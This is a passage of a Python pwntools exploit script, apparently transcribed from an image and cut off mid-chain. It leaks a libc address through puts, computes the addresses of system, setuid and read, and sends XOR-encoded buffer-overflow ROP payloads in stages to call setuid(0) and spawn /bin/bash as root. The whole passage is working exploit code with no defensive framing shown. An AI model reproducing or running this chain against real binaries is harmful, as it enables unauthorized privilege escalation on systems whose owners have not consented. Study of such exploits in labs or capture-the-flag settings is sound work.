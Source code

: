```python
    log.info("Stage 1 sent!")

    # Get leak of puts in libc
    leak = p.recv(4)
    puts_libc = u32(leak)
    log.info("puts@libc: 0x%x" % puts_libc)
    p.clean()

    # Calculate the required libc functions
    libc_base = puts_libc - offset_puts
    system_addr = libc_base + offset_system
    binsh_addr = libc_base + offset_str_bin_sh
    setuid_addr = libc_base + offset_setuid
    exit_addr = libc_base + offset_exit
    read_addr = libc_base + offset_read
    writable_addr = libc_base + offset_writable

    log.info("libc base: 0x%x" % libc_base)
    log.info("system@libc: 0x%x" % system_addr)
    log.info("setuid@libc: 0x%x" % setuid_addr)
    log.info("exit@libc: 0x%x" % exit_addr)
    log.info("read@libc: 0x%x" % read_addr)
    log.info("writable address in libc: 0x%x" % writable_addr)

    # Create the rop chain for stage 2
    rop2  = p32(setuid_addr)
    rop2 += p32(popret)
    rop2 += p32(0)
    rop2 += p32(main_addr)

    # Create and encode the payload for stage 2
    payload2 = "A"*24 + rop2
    payload2 = payload2.ljust(52, "\x90")
    payload2 = xor(payload2, 0xbe)

    # Launch the second stage of the attack
    comm.write(payload2)
    log.info("Stage 2 sent!")

    # Create the rop chain for stage 3
    rop3  = p32(read_addr)
    rop3 += p32(pppret)
    rop3 += p32(0)
    rop3 += p32(writable_addr)
    rop3 += p32(10)
    rop3 += p32(main_addr)

    # Create and encode the payload for stage 3
    payload3 = "A"*24 + rop3
    payload3 = payload3.ljust(52, "\x90")
    payload3 = xor(payload3, 0xbe)

    # Launch the third stage of the attack
    comm.write(payload3)
    log.info("Stage 3 sent!")

    # Provide the /bin/bash string
    p.send("/bin/bash\x00")
    log.info("\"/bin/bash\": 0x%x" % writable_addr)

    # Create the rop chain for stage 4
    rop4  = p32(system_addr)
    rop4 += p32(exit_addr)
```